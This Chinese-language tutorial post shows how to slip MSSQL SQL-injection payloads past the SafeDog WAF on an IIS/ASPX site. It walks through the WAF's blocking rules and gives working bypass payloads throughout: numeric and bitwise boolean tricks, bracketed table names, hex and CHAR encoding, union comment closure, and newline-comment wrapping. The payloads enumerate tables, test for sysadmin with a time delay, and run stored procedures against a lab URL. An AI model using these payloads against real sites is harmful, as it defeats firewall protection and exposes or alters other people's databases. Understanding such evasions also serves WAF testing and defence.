


# 0x00 简介

BYPASS无非就是上一期MYSQL讲到的那些方法，灵活的运用即可，值得注意的是我们MSSQL搭配的一般都是 ASP/ASPX IIS 等等,其中我们可以利用容器的特性，和脚本语言的
特性绕过比如ASPX的hpp，iis处理%符号的机制，但是我这里就直接想办法在数据库方面来绕过。


# 0x01 简单的爆错bypass

测试环境 IIS+ASPX+MMSQL+IIS安全狗4.0.2229

简单的判断语句测试

```
and 不拦截

and 1 拦截

and -1 不拦截

and -1=-1 不拦截

and ~1 不拦截

and ~1=1 拦截

and ~1=~1 不拦截

```

差不多判断下 安全狗对负数不是很敏感，对数学运算后的布尔值也不是敏感。

and这块绕过了就可以爆出一些基本的信息了，比如用db_name()、user和@@version 都是可以直接用的，并不会被拦截，至少在我这个版本的狗是这样。

```
and @@version>~1

and (user|1)>-1

and (db_name()|1)>.1

```


我们试试直接通过mssql的一些特性来绕过，爆表名的语句

```
and ~1=(select top 1 name from sysobjects where xtype='u' and name !='info');--  拦截

and ~1=(select top 1 name from);--  不拦截

and ~1=(select top 1 name from 1);-- 拦截

and ~1=(select top 1 name from a);--  拦截

and ~1=(select top 1 name from !);--  不拦截

```

可见安全狗在这里拦截的是我们from后面跟字符型或者数字型，我们就只需要找到一个符号来包裹他就可以，在mssql中可以包裹表库名称的符号是[] 

```
and ~1=(select top 1 name from[sysobjects]);--

```

确实也不拦截继续往后测试

```
and ~1=(select top 1 name from[sysobjects] where xtype='u');--  拦截

and ~1=(select top 1 name from[sysobjects] where xtype=);-- 不拦截

```

很简单我们在mssql中可以用char 和hex 来编码我们的表名

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75);--
```

基本上已经绕过了我们的爆出第一个表名的目的，假如要爆其他的表名 测试发现也是拦截 引号字符而已 用相同的方法绕过即可

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75 and name not in (CHAR(105)%2BCHAR(110)%2BCHAR(102)%2BCHAR(111),CHAR(97)%2BCHAR(100)%2BCHAR(109)%2BCHAR(105)%2BCHAR(110)));

```



其实还有一种方法爆表名利用INFORMATION_SCHEMA,但是安全狗有个设置直接拦截这个关键词，但是不是默认开启的，顺便提一下

```
http://192.168.130.137/1.aspx?id=1 and ~1=(select top 1 table_name from [INFORMATION_SCHEMA].[TABLES] where table_name not in (char(105)%2Bchar(110)%2Bchar(102)%2Bchar(111)));--

```


# 0x02 简单的联合bypass

union/*!1113*/

联合注入感觉是个非常简单的bypass过程，因为安全狗的规则把mysql和mssql混为一谈 

```
union 不拦截

union select 拦截

unionselect 拦截

```

感觉是不是已经很绝望没办法绕过了，不妨试试注释，虽然mssql没有内联注释

```
union/*select*/ 不拦截

union/*!select*/ 拦截

union/*!1select*/ 不拦截

```

我们试试闭合他，他还拦截不

```
union/*!1*/select--*/  不拦截

```

我们的最终的payload也构造好了

```
http://192.168.130.137/1.aspx?id=1 union/*!1*/select null,name,null from [info]--*/

```




# 0x03 盲注与储存过程

我们前面讲过mysql的一个绕过手法就是注释加换行，这个其实在mssql中也是成立的，所以直接构造payload

```
http://192.168.130.137/1.aspx?id=1--/*%0aif (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--%20*/

```

储存过程

```
http://192.168.130.137/1.aspx?id=1--/*%0aexec xp_create_subdir 'c:\text'--%20*/

```

你可以把当做万能bypass语句，里面的任何代码安全狗都不会拦截


# 0x04 文末


#### 本文如有错误，请及时提醒，避免误导他人

BY 404